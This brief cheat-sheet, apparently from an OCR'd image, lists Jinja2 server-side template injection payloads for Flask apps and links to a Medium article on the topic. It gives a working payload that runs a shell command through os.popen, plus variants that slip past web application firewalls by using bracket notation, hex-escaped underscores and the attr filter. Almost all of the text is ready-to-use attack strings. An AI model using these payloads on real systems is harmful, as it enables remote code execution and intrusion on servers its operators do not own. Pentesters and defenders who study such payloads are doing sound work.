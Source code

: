 Python flask jinja2:

https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f

Simple payload:  
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}  

Bypassing filters:  
 - If the waf blocks **.**:
     {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
 - If the waf blocks **.** and **_**:
     {{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
 - If the waf alsoblocks **request** and **[** and **]**
     {{''|attr('\x5f\x5fclass\x5f\x5f')}}
